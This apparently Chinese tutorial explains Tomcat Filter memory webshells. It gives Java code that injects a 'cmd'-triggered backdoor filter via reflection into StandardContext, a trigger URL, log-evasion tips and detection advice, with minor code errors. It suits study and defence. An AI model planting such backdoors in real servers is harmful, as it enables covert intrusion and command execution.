






# Filter型内存马
## Filter型内存马原理
>正常 Filter 是在应用启动时由 Tomcat 加载并注册的；
>
>Filter 型内存马的本质是：利用代码执行入口，在运行时通过反射和 Tomcat 内部 API，动态注册一个恶意 Filter，使其完全融入正常请求处理链

**Filter 注册的底层原理**

- ①	FilterDef	定义 Filter 本身（名称、类、实例）

- ②	FilterMap	定义 Filter 拦截哪些 URL

- ③	filterConfigs	让 Filter 真正接入请求处理链

- ④	StandardContext	上述所有对象的容器

## Filter正常的工作流程
在Java Web应用中，请求的生命周期是这样的：

```
用户请求 → Listener（监听器，负责收尾） → Filter（过滤器） → Servlet（核心业务，真正干活的人）
```

一个正常的Filter，需要实现javax.servlet.Filter接口，里面有三个关键方法：

- init()：初始化，只执行一次。

- doFilter()：核心逻辑。每个请求都会经过这里，你可以决定是放行(chain.doFilter())还是拦截。

- destroy()：销毁。

Tomcat容器里有一个花名册（FilterMap），记录着URL匹配规则；还有一个档案库（FilterDef），存放着Filter实例。启动时，Tomcat会按照web.xml或注解，把这些信息加载到内存中。

## 注入流程
### 第一步：获取"操作台"——StandardContext
>要注册组件，首先得拿到Web应用的"大管家"StandardContext对象。这是一个获取方式，在不同Tomcat版本中略有差异，但核心思路是从当前线程的上下文中去挖掘

```java
// 1. 从当前线程的上下文类加载器出发
WebappClassLoaderBase classLoader = (WebappClassLoaderBase) Thread.currentThread().getContextClassLoader();

// 2. 通过反射获取其内部的 resources 属性，再层层深入
// 这是一种通用的写法，具体属性名可能因版本而异
Field resourcesField = classLoader.getClass().getDeclaredField("resources");
resourcesField.setAccessible(true);
Object rootContext = resourcesField.get(classLoader);

// 3. 从 RootContext 中获取 StandardContext
Field contextField = rootContext.getClass().getDeclaredField("context");
contextField.setAccessible(true);
StandardContext standardContext = (StandardContext) contextField.get(rootContext);
```
### 第二步：恶意Filter
编写一个实现了javax.servlet.Filter接口的类，其doFilter方法中就是我们的后门逻辑。这里直接使用javax.servlet.http.HttpServlet的service方法实现请求分发，会更方便处理GET/POST等不同请求。
```java
import javax.servlet.*;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.PrintWriter;

public class EvilFilter extends HttpServlet implements Filter {
    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) 
            throws IOException, ServletException {
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse res = (HttpServletResponse) response;

        // 如果请求参数中有 'cmd'，就执行命令并返回结果
        if (req.getParameter("cmd") != null) {
            String cmd = req.getParameter("cmd");
            PrintWriter writer = res.getWriter();
            // 这里简单演示，实际会使用 Runtime.getRuntime().exec(cmd) 并读取输出
            writer.println("Command Executed: " + cmd);
            writer.flush();
            return;
        }
        // 否则，继续执行后续过滤器链
        chain.doFilter(request, response);
    }
}
```

### 第三步：封装FilterDef
创建一个FilterDef对象，将我们的恶意Filter实例和名称封装进去。这是告诉Tomcat"有这个Filter"

```java
// 实例化恶意Filter
EvilFilter evilFilter = new EvilFilter();
// 创建一个FilterDef对象，这是Tomcat内部用于存储Filter定义的结构
org.apache.tomcat.util.descriptor.web.FilterDef filterDef = new org.apache.tomcat.util.descriptor.web.FilterDef();
filterDef.setFilterName("EvilFilter");
filterDef.setFilterClass(evilFilter.getClass().getName());
filterDef.setFilter(evilFilter); // 设置Filter实例

// 将FilterDef添加到StandardContext中
standardContext.addFilterDef(filterDef);
```

### 第四步：注册FilterMap
创建FilterMap，将我们设置的URL路径（/shell）与Filter名称（EvilFilter）绑定，然后添加到StandardContext中。这一步告诉Tomcat"什么请求需要经过这个Filter"

```java
// 创建FilterMap，用于映射URL和Filter
org.apache.tomcat.util.descriptor.web.FilterMap filterMap = new org.apache.tomcat.util.descriptor.web.FilterMap();
filterMap.setFilterName("EvilFilter");
filterMap.addURLPattern("/shell"); // 访问 /shell 路径时触发
filterMap.setDispatcher(DispatcherType.REQUEST.name()); // 设置分发类型

// 将FilterMap添加到StandardContext中
standardContext.addFilterMapBefore(filterMap); // 尽量放在过滤器链最前面
```

## 触发执行

**注入成功后**，当攻击者发送请求 http://目标网站/shell/?cmd=whoami 时：

1. Tomcat收到请求，解析路径/shell/。

2. 去内存的filterMaps列表里匹配，发现/shell/*对应EvilFilter。

3. 去filterConfigs里找到EvilFilter的实例。

4. 执行EvilFilter.doFilter()。

5. 由于参数里有cmd，直接进到恶意分支，执行命令，并把结果返回给攻击者。

6. 正常用户如果访问/index.jsp，匹配不到/shell/*，就会正常放行，丝毫不受影响。

## 实战中的关键细节

1. 权限问题：获取StandardContext的方式在不同框架（Tomcat、Spring Boot、WebLogic）下完全不同，利用Thread.currentThread().getContextClassLoader()等技巧拿到WebAppClassLoader是关键。

2. 优先执行：攻击者通常会把filterMaps的顺序调到最前面，或者把Filter的Dispatcher类型设置为REQUEST，防止被其他正常Filter拦截掉。

3.Session利用：如果为了更隐蔽，可以不依赖URL参数，而是把命令藏在Cookie或Session里，这样普通日志很难记录。

## 检测与防御

- ASP是核心防线：RASP通过Hook关键风险点（如defineClass、addFilterDef）来实时拦截注入行为，是目前对抗内存马最有效的手段。

- 内存对象分析：通过JMX或自定义脚本，定期遍历StandardContext中的所有FilterDef和FilterMap，与已知的、启动时加载的基线进行比对，发现异常新增的组件。

- 日志与流量分析：监控对可疑路径（如/shell）的访问，以及请求参数中包含cmd、exec等敏感关键词的流量。

## 实战练习

**环境**：docker搭建Tomcat8.5容器



创建注入器memoryshell.jsp


**POC**

[](../../../code-attachment/memory-shell-code/minidemo/Filter.jsp)

**访问注入器实现注入**



**访问后门**
 


**删除注射器**



**检验后门是否还在**


**还在**，说明内存马不落盘